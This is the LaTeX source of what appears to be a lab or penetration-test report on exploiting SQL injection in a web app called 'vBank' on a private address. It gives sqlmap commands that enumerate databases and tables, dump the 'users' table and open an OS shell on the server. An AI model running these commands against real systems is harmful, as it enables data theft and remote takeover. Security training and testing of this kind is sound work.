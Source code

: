 \documentclass[12pt]{report}
\begin{document}
	Since we have identified significant vulnerabilities in vBank, which can be exploited with sql injections, we will use 'sqlmap' to exploit.\\
	To download sqlmap: \\
	{\sf wget from http://sqlmap.sourceforge.net/\#download}
	\\To install:\\
	{\sf tar zxvf sqlmap-1.1.4tar.gz\\
	cd sqlmap\\}
	To run: \\
	{\sf python sqlmap.py} or simply {\sf sqlmap}\\
	\\ We know the vulnerable fields are 'username' and 'password' of login page. We will run sqlmap to the target webapp using the login page and vulnerable fields as follows:\\
	\begin{figure}[H]
		\texttt{[image: images/sqlmap1.jpg]}
		\caption{Identifying server.}
	\end{figure}
	Sqlmap identifies the server using 'Linux' operating system, 'Apache' webserver and 'MySQL' DBMS. Next we find out the database name using '-{}- dbs' option.\\
	Command used:\\ {\sf sqlmap -u "http://192.168.0.29/vBank/htdocs/login.php?username=\&password=" -{}-dbs}\\
	\begin{figure}[H]
		\texttt{[image: images/sqlmap2.jpg]}
		\caption{Identifying database name.}
	\end{figure}
	
	There are 6 databases found. Our target database is 'vbank'.\\
	Using {\sf '-D vbank -{}-tables'} option, we can enumerate the tables of vbank.\\
	command:\\
	{\sf sqlmap -u "http://192.168.0.29/vBank/htdocs/login.php?username=\&password=" -D vbank -{}-tables
	}
	\begin{figure}[H]
		\texttt{[image: images/sqlmap3.jpg]}
		\caption{Enumerating tables.}
	\end{figure}
	
	To display the contents of a table, we can use -{}-dump option. Here the 'users' table is the table of interest. We use following command to display it.\\
	command:\\
	{\sf sqlmap -u "http://192.168.0.29/vBank/htdocs/login.php?username=\&password=" -D vbank -T users -{}-dump
	}
	\begin{figure}[H]
		\texttt{[image: images/sqlmap4.jpg]}
		\caption{contents of 'users' table.}
	\end{figure}
	
	Sqlmap has it own shell. To upload a shell, we use {\sf -{}-os-shell} option.\\
	command:\\
	{\sf sqlmap -u "http://192.168.0.29/vBank/htdocs/login.php?username=\&password=" -{}-os-shell
	}
	
\end{document}
